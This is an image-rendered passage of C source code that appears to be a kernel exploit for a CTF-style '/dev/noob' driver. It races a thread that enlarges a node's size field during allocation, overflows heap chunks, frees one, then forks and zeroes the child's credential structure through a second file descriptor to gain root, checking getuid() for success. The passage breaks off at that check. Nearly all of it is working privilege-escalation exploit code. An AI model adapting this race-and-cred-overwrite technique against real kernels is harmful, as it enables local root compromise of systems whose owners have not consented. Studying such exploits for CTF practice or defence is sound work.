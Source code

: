 ```
	while(!finish)
	{
		p->size = 0xa8;
	}
}


char  buf[0x100] = {0};

int main()
{
	pthread_t t1,t2;
	fd1 = open("/dev/noob",O_RDWR);
	fd2 = open("/dev/noob",O_RDWR);
	assert(fd1 >= 0);
	assert(fd2 >= 0);
	puts("[*]race condition");
	struct node n;
        n.index = 0;
        n.size = 0x68;
        n.data_ptr = 0;

	pthread_create(&t1, NULL,changesize,&n);

	for (int i=0;i<0x20;i++) {
		n.size = 0x68;
		n.index = i;
		if(new(fd1,&n) == -1)
		{
			i -= 1;
		}
   	}
   	finish = 1;
   	pthread_join(t1, NULL);

	memset(buf,0x41,0xa8);
	for(int i=0;i < 0x20;i++)
	{
		if(edit(fd1,0,buf,0xa8) != -1)
		{
			printf("GET IT:%d\n",i);
		}
		else
		{
			printf("GG\n");
		}
	}
	
	del(fd1,0);
	
	puts("[*]fork");
   	int pid = fork();
   	if (pid < 0) {
      		printf("[-]fork error!!\n");
      		exit(-1);
   	} 
	else if (pid == 0) 
	{
		char buf[28];
      		memset(buf,0,28);
      		edit(fd2,0,buf,28);
      		if (getuid() == 0) 
		{
```